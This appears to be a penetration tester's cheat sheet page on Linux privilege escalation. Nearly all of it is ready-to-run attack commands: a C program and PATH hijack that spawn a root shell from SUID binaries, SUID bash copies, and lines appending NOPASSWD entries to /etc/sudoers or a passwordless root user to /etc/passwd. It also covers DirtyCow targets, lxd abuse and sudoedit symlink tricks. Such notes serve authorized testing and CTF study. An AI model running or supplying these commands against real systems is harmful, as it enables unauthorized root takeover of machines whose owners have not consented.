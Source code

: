 ```yaml
---
description: sudo -l
---
```


# Linux

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md" %}

### Linux

#### NFS / Sudo / Crontab / SUID / /etc/init.d

{% embed url="https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/privilege-escalation/linux/linux-examples.rst" %}
Crontab PATH / path of command in SUID script
{% endembed %}

<pre><code><strong># service path inside suid command
</strong><strong>fakeservice.c to compile
</strong><strong>#include &#x3C;unistd.h>
</strong>int main() {
        char *args[2];
        args[0] = "/bin/sh";
        args[1] = NULL;
        execve(args[0], args, NULL);
}

or

echo "/bin/sh -p" > /tmp/service
chmod +x /tmp/service
/usr/bin/status

or
"cp /bin/bash /tmp/rootbash &#x26;&#x26; chmod +s /tmp/rootbash &#x26;&#x26; /tmp/rootbash -p;"
or
"cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh;"
or
"echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers;"
sudo bash
</code></pre>

### `find / -perm -u=s -type f 2>/dev/null`

{% hint style="info" %}
`strings` to inspect words in binary
{% endhint %}

{% embed url="https://gtfobins.github.io/" %}

#### Writable `/etc/passwd` `/etc/sudoers`

```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

```
echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
sudo bash
```

#### DirtyCow

{% embed url="https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs" %}
\#Affect kernel BEFORE the followings -
{% endembed %}

```
Centos7 /RHEL7    3.10.0-327.36.3.el7
Cetnos6/RHEL6     2.6.32-642.6.2.el6
Ubuntu 16.10         4.8.0-26.28
Ubuntu 16.04         4.4.0-45.66
Ubuntu 14.04         3.13.0-100.147
Debian 8                3.16.36-1+deb8u2
Debian 7                3.2.82-1

dcow.cpp -s
or cowroot
(echo 'jack ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
mv /tmp/bak /usr/bin/passwd) manual restore
```

### lxd

{% embed url="https://www.hackingarticles.in/lxd-privilege-escalation/" %}

```
echo 'user ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
sudo bash

echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su dummy

cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;
```

#### sudo -l no passwd /xx/xx/xx/\*/\*/xxx.html

```
cd to /xx/xx/xx/*/*/
touch xxx.html (make a empty file)
ln -sf /etc/passwd /xx/xx/xx/*/*/xxx.html (link passwd to sudo file)
sudoedit /xx/xx/xx/*/*/xxx.html (= edit /etc/passwd)
dummy::0:0::/root:/bin/bash

or

ln -sf /etc/sudoers /xx/xx/xx/*/*/xxx.html (link sudoers to sudo file)
sudoedit /xx/xx/xx/*/*/xxx.html (= edit /etc/sudoers)
user ALL=(ALL) NOPASSWD:ALL
```
